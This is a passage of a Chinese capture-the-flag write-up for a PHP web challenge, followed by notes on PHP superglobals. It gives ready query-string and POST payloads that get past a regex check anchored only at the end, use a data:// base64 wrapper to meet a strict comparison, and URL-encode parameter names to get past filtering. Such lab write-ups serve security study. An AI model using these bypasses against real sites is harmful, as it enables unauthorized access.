 nctf变量的值不能等于nctfisfun，但是preg_match又要匹配到nctfisfun，但是正则只限制了要以nctfisfun结尾，没有限制开头，所以这里选择在开头随便加东西就可以了，即

```
nctf=1nctfisfun
```





```php
if(isset($getflag) && $getflag === 'ccc_liubi'){
            include 'flag.php';
            echo $flag;
        }
```

又要求flag的值要==='ccc_liubi',选择使用data协议绕过

```
flag=data://text/plain;base64,Y2NjX2xpdWJp
```

`ccc_liubi` base64编码为 `Y2NjX2xpdWJp`



PayLoad:

```
?yulinge[]=null&nctf=nnctfisfun&flag=data://text/plain;base64,Y2NjX2xpdWJp
```

```
?%79%75%6C%69%67%65[]=1&%6E%63%74%66=%6E%63%74%66%69%73%66%75%6E%0a&%66%6C%61%67=data://text/plain;base64,Y2NjX2xpdWJp
```

POST DATA:

```
yulige=1&nctf=1&flag=1
```



### 超全局数组



`$_REQUEST`、`$_SERVER` 和 `$_GET` 是 PHP 的超全局数组，能够在任何作用域中访问，不需要声明。



1. `$_REQUEST`

- **定义**：包含来自用户输入的所有请求数据，整合了 `$_GET`、`$_POST` 和 `$_COOKIE` 的数据。
- **使用场景**：适合处理表单提交和用户请求，但由于整合性，可能导致不必要的安全风险。例如，如果同时使用 GET 和 POST，可能难以追踪数据来源。
- **访问方式**：可以通过 `$value = $_REQUEST['key'];` 获取数据。

2. `$_SERVER`

- **定义**：包含关于服务器环境的信息，提供有关请求的各种信息，比如请求方法、用户代理、服务器名等。
- 常用键：
  - `$_SERVER['REQUEST_METHOD']`：获取请求的方法（GET、POST等）。
  - `$_SERVER['HTTP_USER_AGENT']`：获取用户代理字符串，表示客户端浏览器信息。
  - `$_SERVER['QUERY_STRING']`：获取 URL 中的查询字符串。
- **使用场景**：用于获取请求的上下文信息和服务器的环境信息。
